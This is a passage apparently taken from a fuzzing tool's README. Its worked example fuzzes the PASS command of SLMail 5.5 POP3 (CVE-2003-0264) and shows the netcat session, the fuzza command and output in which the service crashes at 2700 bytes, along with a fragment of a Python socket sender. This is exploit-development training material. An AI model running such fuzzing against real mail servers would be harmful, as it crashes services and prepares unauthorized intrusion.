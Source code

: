 ```python
    s.send(str2b('' + buffer + ''))
    print('done')
except:
    print('Could not connect')
s.close()
```


## Examples

### SLMail 5.5 Buffer overflow

#### Overview

* [CVE-2003-0264](https://www.cvedetails.com/cve/CVE-2003-0264/) - buffer overflow in password.

To see how the raw communication works, have a look at the following netcat snippet:
```bash
$ nc mail.example.tld 110
+OK POP3 server mail.example.tld ready <00001.544405549@mail.example.tld>
USER test
+OK test welcome here
PASS LongPassword
-ERR unable to lock mailbox
QUIT
```

#### Find potential overflow length

In order to fuzz the password, all previous communication must have happened. By using `fuzza`,
this can be achieved with the `-i` argument to specify initial data to be send and received.
Additionally we also want to close the connection after sending the payload (if possible).
This can be achieved with the `-e` option which works exactly as `-i`.
```bash
$ fuzza -i ':.*OK POP3.*,USER test\r\n:.*test welcome.*' -p 'PASS ' -s '\r\n' -e ':.*,QUIT\r\n:' mail.example.tld 110

------------------------------------------------------------
A * 100
------------------------------------------------------------
Init Awaiting:   ".*OK POP3.*"
Init Received:   "+OK POP3 server mail.example.tld ready <00005.544236132@mail.example.tld>"
Init Sending:    "USER test\r\n"
Init Awaiting:   "test welcome"
Init Received:   "+OK test welcome here"
Sending Payload: "PASS " + "A"*100 + "\r\n"
Exit Awaiting:   ".*"
Exit Received:   "-ERR unable to lock mailbox"
Exit Sending:    "QUIT\r\n"
...

------------------------------------------------------------
A * 2700
------------------------------------------------------------
Init Awaiting:   ".*OK POP3.*"
Init Received:   "+OK POP3 server mail.example.tld ready <00005.544236132@mail.example.tld>"
Init Sending:    "USER test\r\n"
Init Awaiting:   "test welcome"
Init Received:   "+OK test welcome here"
Sending Payload: "PASS " + "A"*2700 + "\r\n"
Exit Awaiting:   ".*"

Remote service (most likely) crashed at 2700 bytes of "A"
Payload sent:
```